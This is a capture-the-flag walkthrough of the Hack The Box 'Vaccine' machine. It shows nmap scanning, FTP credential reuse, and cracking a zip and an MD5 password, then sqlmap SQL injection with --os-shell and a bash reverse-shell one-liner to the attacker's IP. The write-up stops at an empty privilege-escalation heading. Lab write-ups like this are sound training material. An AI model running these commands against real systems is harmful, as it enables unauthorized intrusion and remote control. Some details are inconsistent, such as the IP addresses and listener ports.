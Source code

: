 # Vaccine
Notification: The words that are hyperlinked are to resources to learn more about the topic, protocol, or have useful information in them check them out if you want to learn more. 
# Enumeration

1. Nmap Scan 
  - First we want to start with a nmap scan and see what is available to us. to do this we will run the command below
    - `nmap -sS -A -oN nmap.txt 10.10.10.48`
    ![image](https://user-images.githubusercontent.com/29686845/133382328-9fb1414d-3ef7-440b-b5b9-96f3cbf89b49.png)
  - We see our open ports 21 FTP, 22 SSH, 80 HTTP Apache open. The main thing we notice is at the bottom of the screenshot or in our nmap scan we can see `http-title: MegaCorp Login`. This tells me that our credentials that we found in the previous machine [oopsie](https://github.com/Ajqx255/Hack-The-Box/tree/main/Oopsie) could potentially work to get us a secure shell through port 22. 
2. Port 22 SSH
  - lets try the root user that we obtained. Username: `ftpuser` Password: `mc@F1l3ZilL4` and connect with the command [SSH](https://www.openssh.com/manual.html) as seen below:
  
    ![image](https://user-images.githubusercontent.com/29686845/133384641-ee391953-ce3f-40a4-8a4e-c50499c56ed3.png)  
  - Which did not work, but it dawned on me as soon as we were denied permisson. (Dont Laugh at me... or do its fun to laugh and learn from our mistakes) there is a big hint in the name ftpuser. we have a open port and protocol that use ftp and [FileZilla](https://filezilla-project.org/) is a ftp software so we might have better luck there. 
3. Port 21 FTP
  - We will run the [FTP](https://linux.die.net/man/1/ftp) command as seen below:
    - `ftp 10.10.10.46`
    - ![image](https://user-images.githubusercontent.com/29686845/133386609-e80d051e-f851-4fe8-9552-d98a426f5aae.png)
  -  after using the same credentials as above we now see that we are succesfully connected lets see what we can find.
    - a simple `ls` command shows that there is a zip file nammed: backup.zip as seen below:
      ![image](https://user-images.githubusercontent.com/29686845/133498980-ed39df96-0c2b-4d83-adbb-9e3226339807.png)
  -  Lets extract the file back to our linux machine with using the [get](https://linux.die.net/man/1/get) command:
     - `get backup.zip`
  -  Now lets unzip the file with the command [unizp](https://linux.die.net/man/1/unzip) as seen below:
    - `unzip backup.zip`
    - When we do this we notice that it is asking for a password. Lets try the password for ftp user since it worked for usto gain access to the ftp server it might work here. 
    - ![image](https://user-images.githubusercontent.com/29686845/133500536-069549ad-1b43-4b25-8f26-cbcba8a35872.png)
    - the ftp password did not work either.
  - Since we do not know the password lets see if we can not brute force the password using [John the ripper](https://www.openwall.com/john/doc/)
    - We know we know we are going to use john to brute force the zip file, but we are going to have to do some prep work before we can actually use john. The first thing we are going to have to do is change the zip file into a format that john can read and crack. we will do this using [zip2john](https://www.hackingarticles.in/beginners-guide-for-john-the-ripper-part-2/) 
    - We will run the command `zip2john backup.zip > hash.txt`
    - ![image](https://user-images.githubusercontent.com/29686845/133515214-b0de851d-4373-407f-8421-3d5d899f124e.png)
    - John can now read teh file so lets go agead and crack it with the follwoing command:
    - `sudo john hash.txt --fork=4 -w= /usr/share/wordlists/rockyou.txt`
      - incase you were wondering --fork is stating the amount of threads or instances it will run simultaniously.
      - -w= is selecting a wordlist that you provide. In kali linux there are already wordlists install under /usr/share/wordlists. 
    -  Time frames will change based on the resources you are running, but within a matter of seconds john was able to crack to the hash:
    -  ![image](https://user-images.githubusercontent.com/29686845/133854092-b087597b-2285-4c55-bcdf-2074946b63ca.png)
        - I had issues with running this command for some reason: It worked the one time and I am glad I took a screen shot of it then. I tried multiple times to look at it and figure out what I was doing wrong, but I couldn't find it. So I would say try it out first and if it doesn't work, dont go on a three day rabbit hole like I did just move on! lol. 

4. Opening the zip file.
  - Now that we have the password `741852963` we can go ahead and unzip the backup.zip file and take a look inside.
    - The results ended out as two files "index.php" & style.css". Both seem to be a programming language file. 
      - [PHP](https://www.php.net/manual/en/intro-whatis.php)
      - [CSS](https://developer.mozilla.org/en-US/docs/Learn/CSS/First_steps/What_is_CSS)
    - You can look into the folder using the cat command: `cat index.php`, the less command: `less index.php`, but personally I like to use [Virtual Studio Code](https://code.visualstudio.com/). It color coordinates everything and just makes it easier for me to read and write code.
    - Once opened on we see some useful infromation. We find a set of credentials as seen below.
      ![image](https://user-images.githubusercontent.com/29686845/134093351-ecc751ba-0c94-4f1b-91f1-e208daed70f3.png)
    - Username: `admin` & Password: `2cb42f8734ea607eefed3b70af13bbd3`
      - This does not seem like a regular password, or at least not one that would be easily used or even memorized. That is because it is not a password it is a hash. it as in md5 hash to be exact. How can we tell? well luckily for us they made it easy. in the screenshot above the section right before password its says md5. 

5. Cracking the Hash
  - Lets see if we can crack it using [CrackStation](https://crackstation.net/). you can use other tools like hashcat, but it will talk some time to complete compaired to the seconds it takes CrackStation
      ![image](https://user-images.githubusercontent.com/29686845/134099184-3a44f86e-954a-4643-a105-9b71f275d3f5.png)
  - We now know that the username and the password `admin` & `qwerty789`
  
# FootHold
1. Web Page Access
  - I tried connecting through port 22 and the credentails did not work. so lets scratch that all together.
  - We know port 80 http is open lets take a look at the webpage and see what we find.
    - The website brings us to a login page. I entered the credianls `admin | qwerty789`. This gets us a successful login.
  - There is not many relevant factors to the page, but it seems to be a car catalog with a functioning search bar that we might be able to exploit.
2. Exploiting the Webpage
  - Based on our last activity I used burpsuite to look into the page with site map and found that this webpage uses [cookies](https://www.kaspersky.com/resource-center/definitions/cookies). 
    ![image](https://user-images.githubusercontent.com/29686845/134251827-8e4fce2d-2cfb-4a9b-86d3-75b574b0b420.png)
    - We can also see this information when we inspect the web page source code under the storage tab.
      ![image](https://user-images.githubusercontent.com/29686845/134251976-0f94bc71-70b6-4c06-9364-f723c604d70f.png)
  - Now that we have the session id/cookie we can use [sqlmap](https://sqlmap.org/) to see if there are any weaknesses or vulnerable area's ind the database. 
    - `sqlmap -u http://10.10.10.46/dashboard.php?search=a --cookie=PHPSESSID=0h8aobaj9glv58eeme3bsb0l0g`
      - You PHPSESSID will probably be different make sure you use you session id and not this one.
      ![image](https://user-images.githubusercontent.com/29686845/134252721-bb9bd463-fd6a-49b1-b71b-5360f616c369.png)
      ![image](https://user-images.githubusercontent.com/29686845/134253363-15bc34b1-a0c6-47f0-a099-0a94b8363064.png)
    - The output of our command shows that the back end of the Database Management system [DBMS](https://www.altexsoft.com/blog/business/comparing-database-management-systems-mysql-postgresql-mssql-server-mongodb-elasticsearch-and-others/) is [PostgreSQL](https://www.postgresql.org/)
    - This means that sqlmap found that there were many injection vulnerabilietes within this database. 
      - looking in burpsuite will show you a better idea of this with issue definitions
        ![image](https://user-images.githubusercontent.com/29686845/134255984-052aef09-d44f-40d2-88da-7f7eb31c97ee.png)
    - sqlmap provides an easy way to get a shell with this vulnerabilites. it is as easy as adding `--os-shell` to the end of our previous command which I will show right below this
    - `sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=0h8aobaj9glv58eeme3bsb0l0g" --os-shell`
      - I had issues with this for this. It is always important to check you syntax very diligently. I was missing the last character on my cookie when I copied and pasted it into the command. That prevented my from obtaining a shell for a little bit. 
      - ALWAYS CHECK YOUR SYNTAX

3. OS-Shell
  - Now that we have access to our os shell lets a run a few inital commnads. 
    - `whoami` & `id`
    - These commands will tell us what user we are and what this use has access too. 
  - We are going to try and create a reverse shell like we did in the previous machine.
    - lets set up our listner with the netcat command `nc -lvnp 444`
    - now lets run the reverse shell creation command in our os shell 
    - `bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'`
      ![image](https://user-images.githubusercontent.com/29686845/134260208-03155586-6647-4d0d-993b-0668e78f6ca3.png)
    - Now we have our shell! Lets upgrade that shell to a [tty](https://unix.stackexchange.com/questions/4126/what-is-the-exact-difference-between-a-terminal-a-shell-a-tty-and-a-con) shell using the command below:
    - `SHELL=/bin/bash script -q /dev/null`
    - Now that we have our upgraded reverse shell lets move on to gaining privilege escilation

# Privlege Escalation
1. 

    
